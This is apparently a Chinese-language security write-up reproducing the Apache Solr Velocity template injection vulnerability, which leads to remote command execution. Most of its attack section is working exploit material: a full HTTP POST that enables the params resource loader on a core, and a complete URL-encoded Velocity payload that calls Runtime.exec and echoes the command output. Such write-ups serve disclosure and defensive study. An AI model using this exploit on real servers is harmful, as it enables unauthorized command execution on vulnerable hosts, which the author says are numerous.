





#### 漏洞介绍

近日,国外安全研究员 s00py 公开了一个 Apache Solr 的 Velocity 模板注入的漏洞.经过亚信安全网络攻防实验室研究,发现该0day漏洞真实存在,并且
可以攻击最新版本的Solr.目前该漏洞利用详情已经广泛流传于Github以及各大安全群,且公开的EXP可以执行任意命令并自带回显.官方暂未发布补丁

#### 影响范围

Solr version: >5,在8.2.0环境中测试成功

#### 复现过程

###### 0x01 获取core名



或者访问/solr/admin/cores?wt=json，个人更推荐这种方式，因为这种方式在写poc时可以很方便的获取cores




###### 0x02 修改配置

开启params.resource.loader.enabled，发送如下请求

```
POST /solr/core_name/config HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 229
Origin: ip
Connection: close
Referer: xxxxx
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

{
"update-queryresponsewriter": {
"startup": "lazy",
"name": "velocity","class": "solr.VelocityResponseWriter",
"template.base.dir": "",
"solr.resource.loader.enabled": "true",
"params.resource.loader.enabled": "true"
}
}
```
注意下图圈起来的部分替换为我们第一步获取到的core名（任意一个都行）


###### 0x03 执行命令

`
/solr/hot_search/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23en`

执行结果如下




#### python_poc

暂不放出，由于漏洞曝光不久，扫描结果显示漏洞主机有很多

